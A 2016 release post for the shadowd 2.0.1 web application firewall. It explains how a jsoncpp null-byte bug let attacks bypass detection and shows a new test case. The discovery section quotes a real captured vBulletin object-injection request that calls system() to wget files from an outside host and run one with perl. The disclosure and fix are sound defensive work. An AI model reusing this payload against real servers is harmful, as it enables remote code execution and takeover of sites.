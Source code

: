 +++
title = "shadowd 2.0.1"
description = ""
tags = [
    "release",
    "shadowd",
    "bugfix",
]
date = "2016-03-06"
categories = [
    "Development",
    "Shadow Daemon",
]
menu = "main"
+++

**TL;DR:** There was a bug in the library *jsoncpp* regarding null-bytes. It was fixed a year ago, but most packet managers still ship affected versions. If a vulnerable version of the library is used it is possible to bypass shadowd 2.0.0 or earlier.

<!--more-->

## Discovery of the bug

I operate a large amount of [honeypots](https://shadowd.zecure.org/tutorials/honeypots/) to observe and study attacks on web applications. Recently I noticed that one of the web applications (vBulletin 5.1.2) was successfully compromised, but strangely enough the attack was not detected by Shadow Daemon. So I started recording everything and a little bit later I saw a request with the following resource.

    /ajax/api/hook/decodeArguments?arguments=O:12:%22vB_dB_Result%22:2:%7Bs:5:%22%00*%00db%22;O:18:%22vB_Database_MySQLi%22:1:%7Bs:9:%22functions%22;a:1:%7Bs:11:%22free_result%22;s:6:%22system%22;%7D%7Ds:12:%22%00*%00recordset%22;s:151:%22wget%20http://augsburg-auto.ru/files/vb.txt;mv%20vb.txt%20simple.php;cd%20/tmp;wget%20http://augsburg-auto.ru/files/SQL.txt;mv%20SQL.txt%20bash;perl%20bash;rm%20-rf%20SQL*%22;%7D

The parameter *arguments* contains a serialized PHP object and an URL, so this should result in a blacklist impact of 6. More than enough to trigger the alarm, but it did not. After looking at the recorded parameters it was pretty obvious why: *arguments* was cut off after the first null-byte (*%00*), so it was incomplete and did not trigger any filters at all.

    O:12:"vB_dB_Result":2:{s:5:" 

This seemed odd to me, considering that shadowd uses *std::string*. Unlike char arrays the C++ standard library strings are not terminated by null-bytes, so this should not have happened. I started debugging shadowd and noticed that strings were cut off by jsoncpp when decoding client input with null-bytes. As a result of that all security checks in shadowd used the incomplete versions, even though they could handle null-bytes perfectly fine themselves.

After some digging I found [this](https://sourceforge.net/p/jsoncpp/patches/18/) ticket in the jsoncpp bug tracker. The problem with null-bytes was already reported and fixed *exactly* a year ago (now that is a nice coincidence). So why was this problem still happening? Because most packet managers install versions of jsoncpp that are much older than a year.

## The bug fix

The new version of shadowd ships with jsoncpp. The source of the library is directly compiled into the binary. This is the only (usable) way to ensure that shadowd is not affected by the problem, because it might take years until most packet managers update their versions of jsoncpp. On a positive note, this means there is one dependency less required to install shadowd.

So make sure to update to shadowd 2.0.1 as fast as possible to apply this patch.

## Precautionary measures

To prevent this problem from happening again (e.g., when updating the json lib) there is a new test case for null-bytes.

    BOOST_AUTO_TEST_CASE(nullbyte_decode) {
        swd::request_ptr request(new swd::request);
        swd::request_handler request_handler(request, swd::cache_ptr(), swd::storage_ptr());

        request->set_content("{\"version\":\"\",\"client_ip\":\"\",\"caller\":\"\","
         "\"resource\":\"foo\\u0000bar\",\"input\":{},\"hashes\":{}}");
        BOOST_CHECK(request_handler.decode() == true);

        std::stringstream expected;
        expected << "foo" << '\0' << "bar";
        BOOST_CHECK(request->get_resource() == expected.str());
    }

## Lessons learned

The lesson I learned (again) today is to not trust anyone or anything. Even though shadowd could handle null-bytes fine, one of its dependencies could not. The same could be true for web applications you are developing or using yourself. Even if the actual code of the application does not contain bugs, are you certain that there are no bugs in the dozens of libraries the application is using? So better be prepared and protect your applications!
